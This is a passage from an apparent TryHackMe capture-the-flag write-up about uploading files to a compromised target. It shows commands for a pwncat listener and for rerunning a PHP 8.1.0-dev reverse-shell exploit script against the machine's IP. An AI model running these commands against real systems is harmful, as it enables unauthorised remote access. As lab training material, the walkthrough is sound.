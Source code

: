 It means we can't transfer anything to the target the old fasioned way. Here we have two options to work around this problem.

First one is using `msfconsole`'s `meterpreter` or by using `pwncat`, which is basicly netcat on steroids. They both allow us to do a lot of things and uploading files is one of them.

I will use `pwncat`. You can install it using pip with the following command:

~~~sh
$ pip install pwncat-cs
~~~

Let's switch to `pwncat` then. Close the reverse shell and start a new listener using `pwncat`:

~~~sh
└─$ pwncat-cs -lp 4444
~~~

Then run the exploit again:

~~~sh
$ python3 revshell_php_8.1.0-dev.py http://<MACHINE IP>:30679/ <YOUR THM IP> 4444
~~~

After running the exploit again, you should gain a reverse shell on your pwncat listener and by running `help` command, you can see what we can do with it:

<p align="center"><img src="files/pwncat-1.png"></p>

Now we are able to upload anything we want. One thing you need to know about pwncat, is that you can use `Ctrl+D` to switch between local and remote connection.
